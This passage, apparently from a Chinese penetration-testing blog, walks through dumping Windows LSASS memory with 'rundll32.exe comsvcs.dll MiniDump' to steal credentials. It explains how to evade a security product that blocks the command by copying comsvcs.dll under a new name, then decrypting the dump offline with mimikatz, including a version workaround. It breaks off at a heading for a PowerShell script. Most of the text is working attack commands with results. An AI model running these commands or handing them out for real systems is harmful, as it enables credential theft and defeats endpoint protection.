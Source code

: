 ![](https://gitee.com/fuli009/images/raw/master/public/20210904104030.png)

命令格式：

`rundll32.exe comsvcs.dll MiniDump <lsass PID> <out path> full`

此处为：

`rundll32.exe comsvcs.dll MiniDump 508 c:\windows\temp full`

直接运行会被拦截:

![]()

  

![](https://gitee.com/fuli009/images/raw/master/public/20210904104032.png)

  

简单的绕过思路：  

copy一下comsvcs.dll并命名为随意名字，例如test.dll

    
    
    copy C:\windows\System32\comsvcs.dll test.dll  
    rundll32.exe test.dll, MiniDump 508 lsass.dmp full

![]()

  

![](https://gitee.com/fuli009/images/raw/master/public/20210904104033.png)

  

成功转储了lsass  

下载到本地解密。这里有个坑点

我下载到本地后，解密失败。一开始以为保存的时候没有保存全，又试了几次还是没有解密。

![](https://gitee.com/fuli009/images/raw/master/public/20210904104035.png)

  

经过查询资料得知，是新版的mimikatz和win10
1809版本之间的问题导致解密失败。详见https://githubmemory.com/repo/gentilkiwi/mimikatz/issues/354  

换用mimikatz 1809版就好了。

![](https://gitee.com/fuli009/images/raw/master/public/20210904104036.png)

  

成功解密。  

## powershell脚本

### Out-MiniDump.ps1
